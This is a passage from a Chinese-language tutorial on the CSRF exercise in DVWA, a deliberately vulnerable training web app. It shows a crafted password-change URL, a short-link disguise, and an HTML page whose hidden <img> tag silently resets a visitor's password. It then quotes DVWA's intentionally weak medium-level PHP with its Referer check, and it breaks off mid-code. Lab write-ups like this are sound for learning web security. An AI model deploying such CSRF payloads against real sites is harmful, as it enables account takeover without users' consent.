 可以看到，当我们的**新密码**与**确认密码**输入项相同的时候，请求就会发出，修改服务器中储存的用户信息

而其填充前端的方式则是：`http://dvwa/vulnerabilities/csrf/?password_new=[新密码]&password_conf=[确认密码]&Change=Change#`



1. 短链接攻击：只需要构造上述的url便可以直接修改用户密码，但是上述加载网页方式过于直白，因此生成短链进行映射会让这样的操作变得更像另一域名网站

![image-20240515165152106](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405151651192.png)

2. 编辑页面攻击：类似地，我们可以将这个链接直接放在无法直接显示的页面组件上，如`html`中的`<img>`标签

```html
<html>
	<head>
	</head>
	<body>
		<img src="http://dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#" boder="0" style="display:none;"/>
		<h1>Hello World!</h1>
		<h2>Welcome to my HTML page.<h2>
	</body>
</html>
```

+ 由于html在加载元素时会自动访问此链接，因此只要访问该页，就会跳转访问修改密码的链接

![image-20240515170340045](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405151703156.png)



###### 2. Medium Level

这一部分在之前基础上增加了`referer`头的检测，请求在处理前判断主机名是否在`referer`头中，后端php代码如下：

```php
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Checks to see where the request came from 
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
        // Get input 
        $pass_new  = $_GET[ 'password_new' ]; 
        $pass_conf = $_GET[ 'password_conf' ]; 

        // Do the passwords match? 
        if( $pass_new == $pass_conf ) { 
            // They do! 
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
            $pass_new = md5( $pass_new ); 

            // Update the database 
            $current_user = dvwaCurrentUser(); 
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';"; 
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user 
            echo "<pre>Password Changed.</pre>"; 
        } 
        else { 
            // Issue with passwords matching 
```